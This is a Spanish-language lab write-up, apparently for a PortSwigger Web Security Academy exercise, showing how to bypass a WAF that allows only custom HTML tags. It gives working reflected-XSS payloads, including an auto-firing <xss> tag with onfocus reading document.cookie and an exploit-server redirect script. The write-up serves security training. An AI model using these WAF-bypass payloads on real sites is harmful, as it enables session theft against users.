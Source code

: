 # Lab: This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie`.   

---

## 🎯 Objetivo del Lab

El objetivo es ejecutar `alert('XSS')` utilizando un vector de XSS reflejado, a pesar de que todas las etiquetas HTML estándar están bloqueadas. Solo se permiten etiquetas personalizadas.

---

## 🧠 Análisis del Escenario

### 🔒 Restricciones del WAF
- Bloquea etiquetas HTML estándar como `<script>`, `<img>`, `<iframe>`, etc.
- Permite etiquetas personalizadas como `<custom-tag>`.

### 🤔 ¿Qué son las etiquetas personalizadas?
- Son etiquetas no reconocidas por el estándar HTML.
- Los navegadores modernos **ignoran su funcionalidad**, pero **procesan sus atributos** como `onmouseover`, `onclick`, etc.

---

## 🚀 Procedimiento Paso a Paso

### 1. Identificar el punto vulnerable
- El parámetro `search` es vulnerable a XSS reflejado.
- El contenido del parámetro se inserta directamente en el HTML sin ser escapado adecuadamente.
![image](https://github.com/user-attachments/assets/50837f57-5fe2-4730-bc2e-6e265821aa74)



### 2. Crear un payload con etiqueta personalizada
Usamos un evento que no requiere interacción peligrosa. Por ejemplo, `onmouseover`:

```html
<custom-tag onmouseover="alert('XSS')">Pasa el cursor aqui</custom-tag>
```

Esto genera una alerta al pasar el cursor sobre el texto:
![image](https://github.com/user-attachments/assets/5d875582-ef36-45b3-9304-3d9350f337d7)


### 3. Codificar el payload para la URL

Codificamos el HTML para pasarlo por el parámetro `search`:

```
%3Ccustom-tag%20onmouseover%3D%22alert('XSS')%22%3EPasa%20el%20cursor%20aqu%C3%AD%3C%2Fcustom-tag%3E
```

### 4. Armar la URL final

Ejemplo de URL (reemplazar el dominio con el del lab):

```
https://<LAB-ID>.web-security-academy.net/?search=%3Ccustom-tag%20onmouseover%3D%22alert('XSS')%22%3EPasa%20el%20cursor%20aqu%C3%AD%3C%2Fcustom-tag%3E
```

---

## ✅ Conclusión

Aunque el WAF bloquea etiquetas conocidas, es posible ejecutar XSS explotando el hecho de que los navegadores aún procesan atributos en etiquetas desconocidas. Esto permite ejecutar JavaScript de forma efectiva.

---

- Podemos aprovechar **eventos como `onfocus`** que se disparan cuando un elemento recibe el foco.

---

## 🚀 Exploit server

Si bien en este caso podría enviarse el link malicioso directamente sin la necesidad de un sever intermedio, aquí simulamos el uso de una web controlada por el atacante que redirige a la aplicación web vulnerable.

### 1. Construir el Payload
Utilizamos una etiqueta personalizada `<xss>` con los siguientes atributos:
- `id="x"` → Para poder referenciarla con un ancla.
- `onfocus="alert(document.cookie)"` → El código JavaScript a ejecutar.
- `tabindex="1"` → Permite que el elemento sea enfocado automáticamente.

```html
<xss id="x" onfocus="alert(document.cookie)" tabindex="1"></xss>
```
Enviamos este payload y luego agregamos el `#x` al final:
![image](https://github.com/user-attachments/assets/41549c6d-8045-40c4-a03c-0c1ad29f5126)

En este paso del laboratorio, usamos el **Exploit Server** para automatizar la ejecución del XSS sin requerir interacción del usuario.

## 💥 Código insertado en el Exploit Server

```html
<script>
location = 'https://0aae00bf040fe50b80e3302c004b0012.web-security-academy.net/?search=%3Cxss+id%3D%22x%22+onfocus%3D%22alert(document.cookie)%22+tabindex%3D%221%22%3E%3C%2Fxss%3E#x'
</script>
```
![image](https://github.com/user-attachments/assets/075c3474-8621-4d53-98aa-bb98bccd2461)

## 🧠 Conclusión

- `<script>...</script>`: Este bloque se ejecuta automáticamente al cargar la página del exploit server.

- `location = 'URL'`: Redirige al navegador de la víctima automáticamente a la URL vulnerable con el payload.

### Contenido de la URL codificada:

Inyecta una etiqueta personalizada `<xss>` con:

- `id="x"` → identificador para el hash.
- `onfocus="alert(document.cookie)"` → ejecuta la alerta al enfocar el elemento.
- `tabindex="1"` → permite que el elemento sea enfocable automáticamente.
- El `#x` al final de la URL hace que el navegador enfoque el elemento con ID `x`.



Enviamos el exploit a la víctima y resolvemos el lab:
![image](https://github.com/user-attachments/assets/2ca03a06-71d7-4fea-b7ad-e145da0b2c2d)



